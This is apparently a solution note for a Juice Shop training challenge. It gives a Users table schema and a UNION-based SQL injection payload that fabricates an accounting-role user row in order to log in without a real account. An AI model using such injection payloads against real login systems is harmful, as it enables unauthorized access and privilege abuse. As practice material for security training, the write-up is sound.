



# Ephemeral Accountant



```sql
CREATE TABLE `Users` (`id` INTEGER PRIMARY KEY AUTOINCREMENT, `username` VARCHAR(255) DEFAULT '', `email` VARCHAR(255) UNIQUE, `password` VARCHAR(255), `role` VARCHAR(255) DEFAULT 'customer', `deluxeToken` VARCHAR(255) DEFAULT '', `lastLoginIp` VARCHAR(255) DEFAULT '0.0.0.0', `profileImage` VARCHAR(255) DEFAULT '/assets/public/images/uploads/default.svg', `totpSecret` VARCHAR(255) DEFAULT '', `isActive` TINYINT(1) DEFAULT 1, `createdAt` DATETIME NOT NULL, `updatedAt` DATETIME NOT NULL, `deletedAt` DATETIME)
```

**Payload**

```sql
' UNION SELECT * FROM (SELECT 24 as id, 'acc0unt4nt' as username, 'acc0unt4nt@juice-sh.op' as email, 'test' as password, 'accounting' as role, '' as deluxeToken, '1.1.1.1' as lastLoginIp, 'default.svg' as profileImage, '' as totpSecret, 1 as isActive, '13131313' as createdAt, '13131314' as updatedAt, null as deletedAt) AS try WHERE '1'='1';--"
```



